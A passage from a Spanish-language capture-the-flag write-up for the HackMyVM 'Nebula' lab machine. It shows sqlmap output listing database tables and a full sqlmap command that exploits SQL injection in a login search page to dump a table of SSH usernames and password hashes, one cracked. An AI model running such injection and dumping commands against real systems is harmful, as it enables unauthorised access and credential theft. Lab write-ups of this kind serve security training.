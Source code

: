 ```shell
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:02:47 /2024-02-16/

[...]

+----------+
| central  |
| centrals |
| users    |
+----------+

[...]
```

Como vemos hay tres tablas: **`Central`**, **`Centrals`** y **`Users`**. Me interesa bastante la tabla de usuarios, aunque por desgracia no hay nada útil. Veamos la tabla **`Centrals`**:

```shell
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Nebula]
└─# sqlmap -u "http://192.168.1.104/login/search_central.php?id=1" --cookie="PHPSESSID=01mft9ck71b3g868ki6ahjv0dg" -D "nebuladb" -T "centrals" --dump --batch --random-agent
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.2#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:06:11 /2024-02-16/

[...]

+----+--------------------+------------+--------------------+----------------------------------------------+
| id | role               | userssh    | username           | passwordssh                                  |
+----+--------------------+------------+--------------------+----------------------------------------------+
| 1  | Security           | pmccentral | Security Agency    | c8c605999f3d8352d7bb792cf3fdb25b (999999999) |
| 2  | Scientific Central | NULL       | Scientific Central | 40928bc415ab50954a2582018402...              |
+----+--------------------+------------+--------------------+----------------------------------------------+

[...]
```
